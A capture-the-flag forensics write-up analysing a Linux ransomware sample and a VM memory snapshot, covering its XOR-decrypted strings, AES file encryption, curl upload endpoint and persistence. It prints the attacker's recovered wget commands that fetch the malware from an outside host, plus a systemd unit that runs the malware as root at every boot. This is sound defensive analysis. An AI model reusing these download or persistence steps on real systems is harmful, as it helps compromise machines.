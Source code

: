 # Lockpick3.0

### File in challenge
This taks provides us 3 files to analyze
- First is the binary/elf for the malware.
- Second is the vmem file which is the dump of the server's memory or a backup of the virtual machine.
- Third is the vmsn file: A .vmsn file in VMware is a snapshot file that stores the state of a virtual machine (VM) at a particular point in time, including the VM's memory, configuration, and potentially other aspects of its operational state

### Static Analysis
Running strings command on the binary and the snapshot, getting hashes for the malware and checking on virustotal.

```bash
md5sum ubuntu-client
a2444b61b65be96fc2e65924dee8febd  ubuntu-client
```

No detections on virustotal were found when searched for the same hash.\

Few things that we can see by running string on the main binary are as follows:
- We can see the GCC version that is being used for building the binary `GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0`.
- We can see that there are calls to api's like `upload`, `connect` etc.
- Apart from this another major string that we observe is `{"passphrase": "%s", "hostname": "%s"}`

Now checking for similar things in the snapshot file. But this file is quite large we can't just go through it line by line.\
We saw from the previous results that a passphrase is required. As per the general convention of a linux binary we usually pass arguments after the launching the binary, and that being the target it make sense to search for that string.

```bash
cat snap_res | grep ./ubuntu-client
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
wget http://10.10.0.70:8000/ubuntu-client
wget http://10.10.0.70:8123/ubuntu-client
./ubuntu-client 
_=./ubuntu-client
wget http://10.10.0.70:8000/ubuntu-client
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client 
root@ubuntu:~# ./ubuntu-client xGonnaGiveIt2Ya
[2P./ubuntu-client xGonnaGiveIt2Ya
[C./ubuntu-client xGonnaGiveIt2Yat2Ya
wget http://10.10.0.70:8000/ubuntu-client
wget http://10.10.0.70:8123/ubuntu-client
./ubuntu-client 
./ubuntu-client
./ubuntu-client xGonnaGiveIt2Ya
wget http://10.10.0.70:8123/ubuntu-client
[2P./ubuntu-client xGonnaGiveIt2Ya
```

We can see that with ubuntu-client there's an argument that is being passed.
This can be the xor string string utilized by the attacker, but for confirmation we have to analyze the code after decompilation.

### Advanced Static Analysis
Here we are going to decompile the binary and analyze the resulting pseudo code.\
After spending some time with the code, was able to obtain information on the following functions.
- XOR function definition and operation.
![xor_operation](xor_operation.png)
- A function which invokes the above xor operation multiple times. The Decryption function.\
The input data is being xored with one input string.
![xor_miltiple_times](xor_operation_multiple_times.png)
- One function from which the strings command was able to get the "passphrase and hostname".
- Function which mentions which type of files we have to encrypt.
![file_type](file_types_to_encrypt.png)
- A function which is used to configure and perform curl operation. Here we can see it uses funcitons like curl_easy_init, curl_slist_append, curl_easy_setopt etc.
![curl_operation](curl_operation.png)
- An encryption function which is using AES_256_cbc.
![encryption_mech](encryption_mech.png)

In the entry function there is an indirect call that is going to the multiple xor function. From where the arguments are being passed to that function.\
The entry function has only two inputs which can be the input string that we are providing durint the function initiation from cmd. So the string provided can be the XOR key are looking for.

The current understanding is that the attacker first uses the XOR oepration to acquire the address and then later appends the endpoints that it wants to call which we saw from the string functionality.

### Advanced Dynamic Analysis
Here we are going to debug the binary using gdb.

For launching the binary in debuger and running it I was getting one error which was `error while loading shared libraries: libcjson.so.1: cannot open shared object file: No such file or directory`. For solving this we need to install the libcjson package on our machine.\
We can do the same using the following commands.
```bash
$ sudo apt-cache search libcjson # checking if package available for installation
libcjson-dev - Ultralightweight JSON parser in ANSI C (development files)
libcjson1 - Ultralightweight JSON parser in ANSI C
$ sudo apt install libcjson1
# confirm the installation by searching for the missing file
find / -name libcjson.so.1 2>/dev/null
/usr/lib/x86_64-linux-gnu/libcjson.so.1
```
Now we can run gdb or edb for performing the analysis.\
After loading gdb the first thing was to check the functions available with us using `info functions` command.

We can see from the pseudo code part we have one function on which the curl command is being formed and then used, we can see the same function so we are going to set a breakpoint there and run till that location. Just doing that we can see the endpoint which is being used.

Info on the curl command being used.
![curl](curl.png)

Result by setting breakpoint and then run.
![gdb](url_for_connect.png)

We can get the same result from edb as well.
For running edb the command is `edb --run ./ubuntu-cleint <pass>`.
![edb_res1](edb-res-1.png)

After getting the base url we can easily answer the next question which asks us about the uploading files. We already got this information from the strings command.\
So with the base url we just add "/upload".

Final thing is getting what is the service that the attacker did for persistance mechanism and getting that service.\
There are two ways we can do this:
- first we keep the debugging on and get the results from the other decryption calls.\
We already know that there are multiple things that are going to get decrypted and then executed in the machine as that's how the malware is behaving, so if we try to look for the result from the other calls of xor function then we can get this information.
![edb_res2](edb-res-2.png)
We can see that there is a service that is being created which will be restarted after every reboot and run as root. The full command utilized is as follows.
```
[Unit]
Description=Ubuntu Running
After=network.target

[Service]
ExecStart=/usr/bin/ubuntu-run xGonnaGive2Ya
Restart=always
User=root

[Install]
WantedBy=multi-user.target
```
- second is we analyze the vmem file using volatility.

One Question can be answered by taking other question as a hint.\
Task 6 asks for technique ID used for persistence. From Task 5 we can see that a service is being created by malware.\
From this we can just search `Mitre Attack technique user persistence linux service creation`.\
The first link that we get is [this](https://attack.mitre.org/techniques/T1543/002/).
From here we can see the technique Id is **T1543.002**

### Completed

